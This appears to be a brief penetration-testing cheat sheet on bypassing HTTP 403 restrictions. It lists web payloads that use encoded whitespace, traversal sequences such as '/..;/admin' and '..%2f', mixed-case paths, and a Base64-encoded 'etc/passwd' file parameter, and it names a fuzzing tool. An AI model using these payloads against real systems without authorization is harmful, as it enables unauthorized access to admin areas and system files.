 # 403 Bypass

1- using space symbols  
exmaple:  
/admin -> 403  
/admin%09 -> 200  
/admin%20 -> 200  
  
2- use traversal  
Example:  
/admin -> 403  
/..;/admin -> 200  
  
you can fuzz with traversal sometimes that's end with results  
  
Example: /..;/FUZZ  

3 - mixed case

upload --> 403

uPlOaDs --> 200


---

https://target/api/admin/users/123 <-- blocked
https://target/api/fakepath/..%2f/admin/fakepath/..%2f/users/123. <-- Try this


---


url/?f=etc/passwd ==> 403

url/?f=L2V0Yy9wYXNzd2Q= ==> 200

/%3f/ ==> 200 Ok

---
/system --> 403   (fuzz on /system)

/system/logs --> 200

---

Tools

403Jump

